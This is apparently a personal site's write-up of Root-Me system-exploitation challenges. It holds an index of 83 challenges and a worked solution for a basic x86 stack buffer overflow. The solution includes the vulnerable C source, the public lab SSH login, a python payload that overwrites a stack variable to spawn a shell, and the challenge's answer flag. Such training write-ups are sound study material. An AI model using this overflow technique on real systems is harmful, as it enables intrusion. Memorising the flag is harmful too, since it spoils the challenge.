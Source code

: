 # [Root-Me](./rootme.md) Root-Me App - System Challenges [1/83]

These challenges will help you understand applicative vulnerabilities. 

## Contents

1. [ELF x86 - Stack buffer overflow basic 1](#elf-x86-stack-buffer-overflow-basic-1) 🗸
2. [ELF x86 - Stack buffer overflow basic 2](#elf-x86-stack-buffer-overflow-basic-2)
3. [PE32 - Stack buffer overflow basic](#pe32-stack-buffer-overflow-basic)
4. [ELF x86 - Format string bug basic 1](#elf-x86-format-string-bug-basic-1)
5. [ELF x64 - Stack buffer overflow - basic](#elf-x64-stack-buffer-overflow-basic)
6. [ELF x86 - Format string bug basic 2](#elf-x86-format-string-bug-basic-2)
7. [ELF x86 - Race condition](#elf-x86-race-condition)
8. [ELF ARM - Stack buffer overflow - basic](#elf-arm-stack-buffer-overflow-basic)
9. [ELF MIPS - Stack buffer overflow - No NX](#elf-mips-stack-buffer-overflow-no-nx)
10. [ELF x64 - Double free](#elf-x64-double-free)
11. [ELF x86 - Stack buffer overflow basic 3](#elf-x86-stack-buffer-overflow-basic-3)
12. [ELF x86 - Use After Free - basic](#elf-x86-use-after-free-basic)
13. [ELF ARM - Stack Spraying](#elf-arm-stack-spraying)
14. [ELF x64 - Stack buffer overflow - PIE](#elf-x64-stack-buffer-overflow-pie)
15. [ELF x86 - BSS buffer overflow](#elf-x86-bss-buffer-overflow)
16. [ELF x86 - Stack buffer overflow basic 4](#elf-x86-stack-buffer-overflow-basic-4)
17. [ELF x86 - Stack buffer overflow basic 6](#elf-x86-stack-buffer-overflow-basic-6)
18. [ELF x86 - Format String Bug Basic 3](#elf-x86-format-string-bug-basic-3)
19. [PE32 - Advanced stack buffer overflow](#pe32-advanced-stack-buffer-overflow)
20. [ELF ARM - Basic ROP](#elf-arm-basic-rop)
21. [ELF MIPS - Basic ROP](#elf-mips-basic-rop)
22. [ELF x86 - Stack buffer overflow - C++ vtables](#elf-x86-stack-buffer-overflow-cpp-vtables)
23. [PE32+ Format string bug](#pe32-format-string-bug)
24. [ELF x64 - Logic bug](#elf-x64-logic-bug)
25. [ELF x86 - Bug Hunting - Several issues](#elf-x86-bug-hunting-several-issues)
26. [ELF x86 - Stack buffer and integer overflow](#elf-x86-stack-buffer-and-integer-overflow)
27. [ELF x86 - Stack buffer overflow - ret2dl_resolve](#elf-x86-stack-buffer-overflow-ret2dl-resolve)
28. [ELF x86 - Stack buffer overflow basic 5](#elf-x86-stack-buffer-overflow-basic-5)
29. [ELF x64 - Stack buffer overflow - advanced](#elf-x64-stack-buffer-overflow-advanced)
30. [ELF MIPS - Format String Glitch](#elf-mips-format-string-glitch)
31. [ELF x64 - Heap Filling](#elf-x64-heap-filling)
32. [ELF x86 - Information leakage with Stack Smashing Protector](#elf-x86-information-leakage-with-stack-smashing-protector)
33. [ELF x64 - File Structure Hacking](#elf-x64-file-structure-hacking)
34. [ELF ARM - Race condition](#elf-arm-race-condition)
35. [ELF x64 - Browser exploit - Intro](#elf-x64-browser-exploit-intro)
36. [ELF x64 - Heap Safe-Linking Bypass](#elf-x64-heap-safe-linking-bypass)
37. [ELF x64 - ret2dl_init](#elf-x64-ret2dl-init)
38. [ELF x86 - Out of bounds attack - French Paradox](#elf-x86-out-of-bounds-attack-french-paradox)
39. [ELF x86 - Remote BSS buffer overflow](#elf-x86-remote-bss-buffer-overflow)
40. [ELF x86 - Remote Format String bug](#elf-x86-remote-format-string-bug)
41. [PE32+ Basic ROP](#pe32-basic-rop)
42. [ELF x64 - Remote heap buffer overflow - fastbin](#elf-x64-remote-heap-buffer-overflow-fastbin)
43. [ELF x86 - Blind remote format string bug](#elf-x86-blind-remote-format-string-bug)
44. [LinKern ARM - vulnerable syscall](#linkern-arm-vulnerable-syscall)
45. [LinKern x86 - Buffer overflow basic 1](#linkern-x86-buffer-overflow-basic-1)
46. [LinKern x86 - Null pointer dereference](#linkern-x86-null-pointer-dereference)
47. [LinKern x64 - Race condition](#linkern-x64-race-condition)
48. [ELF ARM - Alphanumeric shellcode](#elf-arm-alphanumeric-shellcode)
49. [ELF MIPS - URLEncoded Format String bug](#elf-mips-urlencoded-format-string-bug)
50. [ELF x86 - Hardened binary 1](#elf-x86-hardened-binary-1)
51. [ELF x86 - Hardened binary 2](#elf-x86-hardened-binary-2)
52. [ELF x86 - Hardened binary 3](#elf-x86-hardened-binary-3)
53. [ELF x86 - Hardened binary 4](#elf-x86-hardened-binary-4)
54. [LinKern MIPSel - Vulnerable ioctl](#linkern-mipsel-vulnerable-ioctl)
55. [LinKern x64 - reentrant code](#linkern-x64-reentrant-code)
56. [ELF ARM - Heap format string bug](#elf-arm-heap-format-string-bug)
57. [ELF x64 - Sigreturn Oriented Programming](#elf-x64-sigreturn-oriented-programming)
58. [ELF ARM - Format String bug](#elf-arm-format-string-bug)
59. [ELF ARM - Use After Free](#elf-arm-use-after-free)
60. [ELF x64 - FILE structure hijacking](#elf-x64-file-structure-hijacking)
61. [ELF x64 - Heap feng-shui](#elf-x64-heap-feng-shui)
62. [ELF x64 - Off-by-one bug](#elf-x64-off-by-one-bug)
63. [ELF x86 - Hardened binary 5](#elf-x86-hardened-binary-5)
64. [LinKern ARM - Stack Overflow](#linkern-arm-stack-overflow)
65. [LinKern x86 - basic ROP](#linkern-x86-basic-rop)
66. [ELF ARM - Heap Off-by-One](#elf-arm-heap-off-by-one)
67. [ELF x64 - Remote Heap buffer overflow 1](#elf-x64-remote-heap-buffer-overflow-1)
68. [ELF x86 - Hardened binary 6](#elf-x86-hardened-binary-6)
69. [ELF x86 - Hardened binary 7](#elf-x86-hardened-binary-7)
70. [ELF x86 - Remote stack buffer overflow - Hardened](#elf-x86-remote-stack-buffer-overflow-hardened)
71. [LinKern x64 - RowHammer](#linkern-x64-rowhammer)
72. [LinKern x64 - SLUB off-by-one](#linkern-x64-slub-off-by-one)
73. [ELF ARM - Heap buffer overflow - Wilderness](#elf-arm-heap-buffer-overflow-wilderness)
74. [ELF ARM - Heap Overflow](#elf-arm-heap-overflow)
75. [ELF x64 - Seccomp Whitelist](#elf-x64-seccomp-whitelist)
76. [ELF x86 - Blind ROP](#elf-x86-blind-rop)
77. [Linkern x64 - Memory exploration](#linkern-x64-memory-exploration)
78. [WinKern x64 - Advanced stack buffer overflow - ROP](#winkern-x64-advanced-stack-buffer-overflow-rop)
79. [WinKern x64 - Use After Free](#winkern-x64-use-after-free)
80. [ELF x64 - Remote Heap buffer overflow 2](#elf-x64-remote-heap-buffer-overflow-2)
81. [ELF x64 - Advanced Heap Exploitation - Heap Leakless & Fortified](#elf-x64-advanced-heap-exploitation-heap-leakless-fortified)
82. [ELF x64 - Blind ROP](#elf-x64-blind-rop)
83. [ELF x64 - Browser exploit - BitString](#elf-x64-browser-exploit-bitstring)

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## ELF x86 Stack buffer overflow basic 1

- Author: Lyes
- Date: 25 March 2015
- Points: 5
- Level: 1

### Statement

Environment configuration:

|-----------|------------------------------------|---|
| PIE       | Position Independent Executable    | x |
| ReIRO     | Read Only Relocations              | x |
| NX        | Non-Executable Stack               | x |
| Heap exec | Non-Executable Heap                | x |
| ASLR      | Address Space Layout Randomization | x |
| SF        | Source Fortification               | x |
| SRC       | Source code access                 | 🗸 |
|-----------|------------------------------------|---|

<details>

<summary markdown="span">Source Code</summary>

~~~c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
     
  int var;
  int check = 0x04030201;
  char buf[40];
     
  fgets(buf,45,stdin);
     
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
  
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
  
  if (check == 0xdeadbeef)
  {
    printf("Yeah dude! You win!\nOpening your shell...\n");
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
    printf("Shell closed! Bye.\n");
  }
  return 0;
}
~~~

</details>

### Connection Details

- Host: challenge02.root-me.org
- Protocol: SSH
- Port:2222
- SSH access: ssh -p 2222 app-systeme-ch13@challenge02.root-me.org 
- Username: app-systeme-ch13
- Password: app-systeme-ch13

### Resources

1. [youtube](https://www.youtube.com/watch?v=u-OZQkv2ebw).
2. [buffering in standard streams](https://repository.root-me.org/Administration/Unix/Linux/EN%20-%20buffering%20in%20standard%20streams.pdf).
3. [Exploiting Stack Buffer Overflows in Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf).

### Solutions

<details>

<summary markdown="span">Solution</summary>

Reviewing the source code we can see the vulnerability in the buf variable:

~~~c
char buf[40];     
fgets(buf,45,stdin);
~~~

The variable buf is allocated 40 Bytes but the fgets reads 45 Bytes in.  We can overflow the buf buffer and write into the stack.

Connecting, we can see the vulnerability:

~~~shell
app-systeme-ch13@challenge02:~$ ./ch13
0000000000000000000000000000000000000000000000

[buf]: 000000000000000000000000000000000000000000000
[check] 0x3030303030

You are on the right way!
app-systeme-ch13@challenge02:~$ ./ch13
0000000000000000000000000000000000000000111111

[buf]: 000000000000000000000000000000000000000011111
[check] 0x3131313131

You are on the right way!
~~~

We can see the overflow checks the check variable which is manipulated by the trailing characters (0x31 = "1").  We ncan check the endian-ness of the buffer:

~~~shell
app-systeme-ch13@challenge02:~$ ./ch13
000000000000000000000000000000000000000012345

[buf]: 00000000000000000000000000000000000000001234
[check] 0x34333231

You are on the right way!
~~~
  
This shows us the variable is little-endian.  We need to append a 5-byte statement to generate a correct little-endian value as detailed in the source code:

~~~c
if (check == 0xdeadbeef)
~~~

We can use python to insert the hex chars:

~~~shell
app-systeme-ch13@challenge02:~$ (python -c 'print("0"*40+"\xef\xbe\xad\xde")') | ./ch13

[buf]: 0000000000000000000000000000000000000000ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
~~~

This opens a shell and immediately closes it.  We need to interrupt it using cat:

~~~shell
app-systeme-ch13@challenge02:~$ (python -c 'print("0"*40+"\xef\xbe\xad\xde")'; cat) | ./ch13

[buf]: 0000000000000000000000000000000000000000ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
ls
ch13  ch13.c  Makefile
strings .passwd
1w4ntm0r3pr0np1s
exit
Shell closed! Bye.
~~~
  
</details>

### Answer

<details>

<summary markdown="span">Answer</summary>

~~~
1w4ntm0r3pr0np1s
~~~

</details>

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

Last updated Jan 2021.

## [djm89uk.github.io](https://djm89uk.github.io)
